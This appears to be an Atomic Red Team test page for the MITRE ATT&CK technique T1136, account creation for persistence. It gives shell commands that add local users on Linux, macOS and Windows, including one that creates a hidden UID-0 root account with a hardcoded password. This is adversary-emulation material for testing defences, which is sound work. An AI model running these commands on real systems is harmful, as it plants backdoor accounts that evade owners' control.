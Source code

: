# T1136 - Create Account
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1136)
<blockquote>Adversaries with a sufficient level of access may create a local system or domain account. Such accounts may be used for persistence that do not require persistent remote access tools to be deployed on the system.

The <code>net user</code> commands can be used to create a local or domain account.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Create a user account on a Linux system](#atomic-test-1---create-a-user-account-on-a-linux-system)

- [Atomic Test #2 - Create a user account on a MacOS system](#atomic-test-2---create-a-user-account-on-a-macos-system)

- [Atomic Test #3 - Create a new user in a command prompt](#atomic-test-3---create-a-new-user-in-a-command-prompt)

- [Atomic Test #4 - Create a new user in PowerShell](#atomic-test-4---create-a-new-user-in-powershell)

- [Atomic Test #5 - Create a new user in Linux with `root` UID and GID.](#atomic-test-5---create-a-new-user-in-linux-with-root-uid-and-gid)


<br/>

## Atomic Test #1 - Create a user account on a Linux system
Create a user via useradd

**Supported Platforms:** Linux


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| username | Username of the user to create | String | evil_user|
| comment | Comment to record when creating the user | String | Evil Account|

#### Run it with `bash`! 
```
useradd -M -N -r -s /bin/bash -c "#{comment}" #{username}
```



<br/>
<br/>

## Atomic Test #2 - Create a user account on a MacOS system
Creates a user on a MacOS system with dscl

**Supported Platforms:** macOS


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| username | Username of the user to create | String | evil_user|
| realname | 'realname' to record when creating the user | String | Evil Account|

#### Run it with `bash`! 
```
dscl . -create /Users/#{username}
dscl . -create /Users/#{username} UserShell /bin/bash
dscl . -create /Users/#{username} RealName "#{realname}"
dscl . -create /Users/#{username} UniqueID "1010"
dscl . -create /Users/#{username} PrimaryGroupID 80
dscl . -create /Users/#{username} NFSHomeDirectory /Users/#{username}
```



<br/>
<br/>

## Atomic Test #3 - Create a new user in a command prompt
Creates a new user in a command prompt

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| username | Username of the user to create | String | Evil Account|

#### Run it with `command_prompt`!  Elevation Required (e.g. root or admin) 
```
net user /add #{username}
```



<br/>
<br/>

## Atomic Test #4 - Create a new user in PowerShell
Creates a new user in PowerShell

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| username | Username of the user to create | String | Evil Account|

#### Run it with `powershell`!  Elevation Required (e.g. root or admin) 
```
New-LocalUser -Name #{username} -NoPassword
net user /add #{username}
```



<br/>
<br/>

## Atomic Test #5 - Create a new user in Linux with `root` UID and GID.
Creates a new user in Linux and adds the user to the `root` group. This technique was used by adversaries during the Butter attack campaign.

**Supported Platforms:** Linux


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| username | Username of the user to create | String | butter|
| password | Password of the user to create | String | BetterWithButter|

#### Run it with `bash`! 
```
useradd -o -u 0 -g 0 -M -d /root -s /bin/bash #{username}
echo "#{password}" | passwd --stdin #{username}
```



<br/>
